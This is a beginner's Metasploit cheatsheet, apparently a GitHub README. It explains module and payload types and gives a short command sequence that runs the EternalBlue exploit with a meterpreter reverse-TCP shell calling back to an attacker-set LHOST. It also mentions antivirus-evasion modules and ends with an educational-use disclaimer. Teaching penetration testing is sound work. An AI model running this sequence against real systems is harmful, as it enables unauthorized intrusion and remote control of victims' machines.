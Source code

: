 # Metasploit Framework - Beginner Friendly Cheatsheet

## 🔧 What is Metasploit?

---

Metasploit is a powerful framework used by ethical hackers and penetration testers to:

Scan for vulnerabilities

Exploit systems

Gain remote access

Perform post-exploitation actions

You interact with Metasploit through the terminal using the command:
```
msfconsole
```
## 📦 Types of Metasploit Modules

---

Modules are building blocks of Metasploit, each serving a specific purpose:

1. Exploit

Code that takes advantage of a vulnerability.

Path:``` modules/exploits/```

2. Payload

Code executed on the target after exploitation (e.g., open shell, add user).

Path: ```modules/payloads/```

3. Auxiliary

Extra tools like scanners, brute-forcers, and information gatherers.

Path:``` modules/auxiliary/```

4. Post

Used after successful exploitation (e.g., dumping hashes, privilege escalation).

Path:``` modules/post/```

5. Encoders

Obfuscate payloads to evade antivirus detection.

Path:``` modules/encoders/```

6. Evasion

Designed to bypass antivirus protections.

Path:``` modules/evasion/```

7. NOPs

No Operation instructions used as buffers in exploits.

Path:``` modules/nops/```

## 📂 Payload Types

---

Single (Inline)

All code is sent at once.

Example: ```generic/shell_reverse_tcp```

Staged

Sent in two parts:

Stager: sets up the connection

Stage: downloads the main payload

Example:``` windows/x64/shell/reverse_tcp```

# 🧰 Basic Metasploit Usage

---

Start Console

msfconsole

Search Exploits

search type:```exploit name:windows```

Use a Module

```use exploit/windows/smb/ms17_010_eternalblue```

Set Payload

```set payload windows/x64/meterpreter/reverse_tcp```

Set Target and Attacker IP

```set RHOST <target_ip>```
```set LHOST <your_ip>```

Run Exploit

```run```

## 🧠 Key Concepts

| Term        | Meaning                                 |
|-------------|-----------------------------------------|
| Exploit     | Code that abuses a system vulnerability |
| Payload     | Code executed after successful exploit  |
| Session     | Active connection to the victim         |
| Shell       | Command interface on the victim         |
| Meterpreter | Advanced interactive payload            |
| Auxiliary   | Non-exploit tools like scanners         |
| PostIP      | Post-exploitation actions               |
| LHOST       | Attacker machine IP                     |
| RHOST       | Victim machine                          |


----


> ⚠️ **Disclaimer:**  
> This cheatsheet is created **strictly for educational purposes**. Unauthorized access or misuse of any system is illegal. Always have explicit permission before testing or exploiting any device.

